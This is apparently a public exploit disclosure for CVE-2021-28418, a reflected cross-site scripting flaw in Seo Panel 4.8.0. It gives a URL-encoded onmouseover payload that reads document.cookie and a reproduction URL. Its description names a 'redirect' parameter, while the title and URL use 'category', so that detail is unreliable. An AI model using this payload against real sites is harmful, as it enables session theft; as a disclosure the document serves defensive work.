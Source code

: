 XSS
---

    # Exploit Title: Seo Panel 4.8.0 - 'category' Reflected XSS
    # Date: 22-03-2021
    # Exploit Author: Piyush Patil
    # Vendor Homepage: https://www.seopanel.org/
    # Software Link:  https://github.com/seopanel/Seo-Panel/releases/tag/4.8.0
    # Version: Seo Panel 4.8.0
    # Tested on: Windows 10 and Kali
    # CVE : CVE-2021-28418


    -Description:
    A cross-site scripting (XSS) issue in the SEO admin login panel version 4.8.0 allows remote attackers to inject JavaScript via the "redirect" parameter.

    -Payload used:
    x%22%20onmouseover%3dalert(document.cookie)%20x%3d%22

    -Steps to reproduce:
    1- Login to SEO admin panel
    2- Visit:
    http://localhost/settings.php?category=x%22%20onmouseover%3dalert(document.cookie)%20x%3d%22
    3- Hover your mouse to "Cancel" field